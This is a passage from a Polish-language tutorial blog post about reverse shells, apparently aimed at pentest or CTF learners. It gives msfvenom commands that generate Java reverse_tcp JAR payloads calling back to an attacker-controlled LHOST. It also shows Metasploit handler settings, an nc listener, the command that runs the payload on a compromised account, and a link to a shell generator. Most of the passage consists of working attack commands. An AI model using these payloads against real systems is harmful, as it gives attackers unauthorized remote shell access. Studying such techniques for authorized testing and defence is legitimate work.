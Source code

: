 ```bash
msfvenom --platform java -f jar -p java/meterpreter/reverse_tcp LPORT=1337 LHOST=172.16.1.89 -o shell.jar
```
### Ustawienia na Metasploicie
```bash
use exploit/multi/handler
set payload payload/java/shell/reverse_tcp
set lport 1337
```
## Nc
### Tworzenie ładunku
```bash
msfvenom -p java/shell_reverse_tcp LPORT=1337 -f jar -o shell.jar
```
### Nasłuchiwanie
```bash
nc -lvn -p 1337
```
Odpalamy ładunek na przejętym koncie poniższym poleceniem (Tu już nie jest ważny **listener**):
{: .text-justify}
```bash
/usr/bin/java -jar shell.jar
```
Trochę jest zmylający parametr **LHOST**, bo to nie jest do końca _localhost_, ale w tym przypadku jest to adres gdzie łączy się nasz ładunek.
{: .text-justify}
# Koniec
I to już koniec. Mam nadzieję, że wyjaśniłem trochę sprawę. Na koniec bonus w postaci [linka](https://www.revshells.com/) do generatora **Shelli**. Jeżeli masz coś ciekawego do dodania, lub znalazłeś poważny błąd, daj znać.
{: .text-justify}
